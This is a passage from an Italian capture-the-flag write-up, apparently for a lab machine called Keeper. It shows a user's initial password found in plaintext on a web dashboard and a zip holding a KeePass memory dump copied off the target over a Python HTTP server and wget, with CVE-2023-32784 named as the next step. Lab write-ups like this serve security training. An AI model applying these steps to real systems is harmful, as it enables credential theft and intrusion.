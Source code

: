 ### Enumerazione del sito.

Sulla dashboard esiste una pagina riguardante gli user e troviamo un altro user di nome **lnorgaard**.

![Desktop View](/assets/img/keeper/keeper-inorgaard.png)

Sulla pagina di edit dello user, possiamo trovare un commento con la password iniziale scritta in clear text.

![Desktop View](/assets/img/keeper/keeper-passoword-user.png)

Prendiamo la user flag.

## Shell come lnorgaard

Dall'issue riguardante lo user, ricordiamo che era a che fare un database keepass e un memory dump. Troviamo sulla home directory una zip nominata come l'issue di cui stiamo parlando.

```shell
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

CVE-2023-32784 fa al caso nostro. Trasportiamo il memory dump sulla nostra macchina.

```shell
lnorgaard@keeper:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.16.6 - - [18/Aug/2025 21:35:47] "GET /RT30000.zip HTTP/1.1" 200 -
```

```shell
wget http://10.10.11.227:8000/RT30000.zip
--2025-08-18 21:35:47--  http://10.10.11.227:8000/RT30000.zip
Connecting to 10.10.11.227:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 87391651 (83M) [application/zip]
Saving to: ‘RT30000.zip’
```
